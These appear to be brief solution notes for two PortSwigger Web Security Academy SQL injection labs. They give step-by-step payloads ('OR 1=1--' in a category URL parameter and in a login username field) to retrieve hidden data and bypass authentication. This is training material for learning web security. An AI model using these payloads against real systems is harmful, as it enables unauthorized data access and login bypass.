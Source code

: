 ###### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
URL: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Endpoint: category=

Steps:
```
1. Click on any filter item.
2. Insert the following payload in the url: category=' OR 1=1--
```


###### Lab: SQL injection vulnerability allowing login bypass
URL: https://portswigger.net/web-security/sql-injection/lab-login-bypass

Endpoint: username

Steps:
```
1. Go to login section.
2. Insert the following in the username section: administrator' OR 1=1--
```

